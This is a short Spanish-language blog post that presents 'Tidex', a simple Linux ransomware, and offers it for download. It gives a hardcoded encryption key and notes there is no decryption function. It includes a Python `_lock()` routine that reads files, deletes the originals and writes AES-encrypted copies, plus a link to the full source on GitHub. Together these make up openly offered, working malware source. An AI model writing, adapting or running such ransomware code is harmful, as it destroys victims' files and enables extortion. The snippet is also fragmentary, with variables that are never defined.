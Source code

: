 ```yaml
---
title: "Tidex Ransomware"
excerpt: "Ejemplo de Ransomware Tidex para Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex

Pequeño y simple Ransomware, solo funciona para cifrar archivos en la ruta del directorio Escritorio y subdirectorios.

&nbsp;

## Importante

Por el momento solo se puede ejecutar en máquinas Linux. Carece de función de descifrado.
La CLAVE es: **hkpykiiqftupr3okl04azj**

&nbsp;

Ejemplo de Código

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

### [Descargar aquí desde GitHub](https://github.com/aiskoa/Tidex)

Gracias
~ aiskoa.